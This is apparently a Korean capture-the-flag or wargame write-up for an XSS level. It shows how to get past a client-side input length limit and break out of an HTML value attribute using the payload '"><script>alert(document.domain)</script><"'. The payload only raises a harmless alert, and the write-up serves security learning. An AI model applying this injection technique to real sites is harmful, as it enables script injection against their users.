 # <p align="center">🎁XSS Lv.5</p>
- 문제 조건
  - 경고창에 domain 띄우기
  - 길이 제한이 걸린 입력칸이 있음

- 문제풀이
  - ```<script>alert(document.domain)</script>``` 입력을 못함
  - 뭔가 안 되는걸 확인했으니 개발자 도구 확인
  - input태그의 max길이가 15로 되있는걸 43 이상으로 바꿈
  - ```<script>alert(document.domain)</script>``` 입력
  - ```value="<script>alert(document.domain)</script>"```로 입력됨
  - ```"><script>alert(document.domain)</script><"```로 바꿔서 입력
  - -끗-

- 부가설명
  - ```"><script>alert(document.domain)</script><"``` 이렇게 넣으면<br/>
결과적으로 ```value=""><script>alert(document.domain)</script><"">```가 되어<br/>
제대로 원하는 결과를 도출할 수 있다.